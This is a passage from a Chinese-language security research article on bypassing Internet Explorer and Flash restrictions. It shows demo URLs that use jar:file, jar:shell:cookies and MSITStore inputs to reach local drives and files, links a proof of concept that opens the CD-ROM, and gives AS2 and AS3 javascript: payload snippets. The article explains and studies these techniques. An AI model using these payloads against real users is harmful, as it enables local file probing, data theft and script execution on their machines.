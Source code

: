 我尝试着在 chrome,firefox 和 IE 中使用 jar 协议来绕过这一限制，但是我并没有在前两个浏览器中成功。这也就意味着这种方式只适用于 IE。下面是一些 bypass 的例子:

利用 jar 协议访问 C 驱动器:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:file:/c:\ 
```

打开 C 驱动器中的某个文件:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:file:/c:\windows\Starter.xml 
```

开启一些被限制的协议:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:shell:cookies

http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:mk:@MSITStore:C:\Windows\Help\mui\0409\certmgr.CHM::/html/355962c2-4f6b-4cbd- ab00-6e7ee4dddc16.htm 
```

利用其它的一些技巧来访问 C 驱动器:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=\\/c:/ 
```

### 那么一旦这些限制被突破后，又会给用户带来什么样的风险呢？

```
1.被使用于一些敏感的本地文件探测（探测杀毒软件的类型和版本等等） 
2.通过目录和文件来收集用户信息 
3.使用 drag and drop 来劫持一些敏感的本地文件（我没有办法在这里给出一些给力的 POC） 
4.代替用户来执行一些危害较大的本地文件（html.,swf 等等）。进而实现数据的盗取，远程代码执行或一些其它猥琐的事情。 
```

最后再献上一个可以弹开你的 CD-ROM 的 POC(测试于 IE10)，就像一些老的病毒一样，试试看吧！

[`0me.me/demo/xss/flash/open_cdrom.html`](http://0me.me/demo/xss/flash/open_cdrom.html)

## 0x05 绕过 flash 沙箱

* * *

我们都知道 navigateToURL 和 getUR 在 flash XSS 当中都是一些很常用的手段。但是大前提就是我们需要一个 allowScriptAccess 来得到脚本访问的许可。下面我将演示如何在不使用 allowScriptAccess 前提下让脚本运行起来。但是在这之前我们先要了解一下，使用 allowScriptAccess 的方法应该是什么样的。

首先是 flash 中 AS 代码的部分，我将分别给出 AS2 和 AS3 的例子。

AS3:

```
navigateToURL(new URLRequest("javascript:alert(document.domain);"),"_self");

```

AS2：

```
getURL("javascript:alert(document.domain)","_self");

```
